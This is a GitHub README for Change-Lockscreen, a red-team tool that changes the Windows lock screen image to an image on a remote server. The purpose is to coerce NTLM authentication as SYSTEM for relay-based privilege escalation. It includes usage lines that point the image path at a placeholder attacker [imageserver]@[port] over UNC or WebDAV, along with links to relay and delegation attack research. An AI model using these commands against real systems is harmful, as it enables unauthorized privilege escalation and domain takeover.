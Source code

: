# Change-Lockscreen

Change-Lockscreen is a tool to trigger network authentications as SYSTEM by changing the Windows lock screen image from command line to perform privilege escalation attacks such as the following:
*  (Link to Blog)

# Features

By default, Windows 10 has a feature called Windows Spotlight. It is in charge of downloading and displaying lock screen images automatically. 
*	When this feature is enabled, Change-Lockscreen will disable it and establish the image specified in the arguments.
*	Otherwise if the user has a custom lock screen image, Change-Lockscreen will be in charge to run a backup of it and establish it again.

N.B. While the Poweshell version of the tool works smoothly, the C# version sometimes fails restoring the original image.

# Usage 

```
Change-Lockscreen -FullPath \\[imageserver]@[port]\[fakePath]\[image.jpg]
Change-Lockscreen -Webdav \\[imageserver]@[port]\ 
```

[![Watch the video](https://i.ytimg.com/vi/NsDQH1H89FQ/maxresdefault.jpg)](https://youtu.be/NsDQH1H89FQ)



# Acknowledgements

* https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html
* https://gist.github.com/3xocyte/4ea8e15332e5008581febdb502d0139c
* https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/
* https://dirkjanm.io/exploiting-CVE-2019-1040-relay-vulnerabilities-for-rce-and-domain-admin/
* http://www.harmj0y.net/blog/activedirectory/a-case-study-in-wagging-the-dog-computer-takeover/
* https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/
